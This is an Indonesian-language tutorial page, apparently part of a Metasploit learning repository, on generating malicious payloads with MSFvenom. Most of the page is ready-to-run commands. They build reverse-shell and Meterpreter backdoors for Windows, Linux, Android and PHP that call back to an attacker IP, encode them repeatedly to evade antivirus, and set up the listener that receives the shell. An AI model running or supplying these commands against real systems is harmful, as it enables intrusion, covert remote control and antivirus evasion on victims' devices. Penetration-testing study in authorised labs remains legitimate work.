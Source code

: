 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Memahami%20Payload%2C%20Encoder%2C%20dan%20NOPs.md">Memahami Payload, Encoder, dan NOPs</a>
</p>

# Membuat Payload dengan MSFvenom

## A. Apa Itu MSFvenom?

[MSFvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) adalah sebuah tool dalam kerangka kerja Metasploit Framework yang digunakan untuk membuat payload berbahaya (exploit code) dalam berbagai format, seperti `.exe`, `.apk`, `.elf`, `.py`, dan `lainnya`. Tool ini menggabungkan dua alat lama di Metasploit, yaitu:
- `msfpayload`: Untuk membuat payload
- `msfencode`: Untuk mengenkripsi/encode payload agar menghindari antivirus

Sekarang semuanya menjadi satu di `msfvenom`.

## B. Fungsi Utama MSFvenom:
- Membuat payload untuk berbagai platform (`Windows`, `Android`, `Linux`, `Mac`, `dll`.)
- Encode payload agar lebih sulit dideteksi antivirus
- Menyesuaikan payload dengan IP dan port tertentu (misalnya reverse shell)
- Export payload dalam berbagai format: `.exe`, `.apk`, `.sh`, `.py`, `.asp`, `.c`, `dll`.

## C. Struktur Dasar Perintah MSFvenom:

```
msfvenom -p <PAYLOAD> LHOST=<IP_ATTACKER> LPORT=<PORT_LISTENER> -e <JENIS_ENCODER> -i <ITERASI> -f <FORMAT_OUTPUT> -o <NAMA_FILE>
```

Keterangan:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Jenis payload yang ingin digunakan | 
| `LHOST` | IP Attacker |
| `LPORT` |	Port listener (bisanya port: `4444`) |
| `-e` | Jenis encoder yang ingin digunakan |
| `-i` | Jumlah iterasi untuk encoder |
| `-n` | Jumlah byte NOP (NOP sled) |
| `-f` |  Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |

## C. Contoh Payload Windows

1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

Untuk melihat semua format yang ada pada MSFvenom ketikkan:

```
msfvenom --list formats
```

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh payload PHP:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

Contoh:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
run
```

## Tips Tambahan
- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Membuat%20Listener.md">Membuat Listener</a>
</p>
